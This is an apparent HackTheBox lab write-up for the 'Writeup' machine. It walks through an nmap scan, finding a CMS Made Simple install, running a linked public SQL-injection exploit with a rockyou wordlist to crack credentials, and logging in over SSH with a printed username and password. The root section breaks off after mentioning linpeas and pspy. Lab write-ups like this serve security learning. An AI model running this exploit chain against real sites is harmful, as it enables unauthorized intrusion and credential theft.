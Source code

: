 # Writeup HackTheBox

![image](https://user-images.githubusercontent.com/5285547/124397537-3e527400-dd08-11eb-9e21-914eb4ef2ea0.png)

## Nmap 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
```


## Robots.txt

![image](https://user-images.githubusercontent.com/5285547/124394688-72259d80-dcf8-11eb-879b-2e092ef3c570.png)


## /writeup/

![image](https://user-images.githubusercontent.com/5285547/124394807-e6f8d780-dcf8-11eb-9399-2ca31be26055.png)

Checking the source code of the page we can see the CMS being used here. 

Redacted source code http://10.10.10.138/writeup/
```
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```

I quickly found this exploit online: https://www.exploit-db.com/exploits/46635

Downloading, editing and running the exploit gave me some creds. 

Python3 version (Edited by me): https://github.com/AssassinUKG/Writeups/blob/main/hackthebox/dare/writeup/cmsExploit/cms.py

```
cms.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/SecLists/Passwords/rockyou.txt
```
![image](https://user-images.githubusercontent.com/5285547/124398557-33024700-dd0e-11eb-8b70-9aac12e92f52.png)


## User

Using the found credentials we can now ssh onto the box

```
ssh jkr@10.10.10.138
raykayjay9
```

And grab the user.txt flag

## Root

I transfer linpeas.sh to the box and start it off, after a little while I can see a few paths that we have write access too. 

![image](https://user-images.githubusercontent.com/5285547/124398967-6e057a00-dd10-11eb-97fd-5a9c72e761cf.png)

Not having found mucn, let's also check the running process's with pspy64 to see whats running as root

```

```


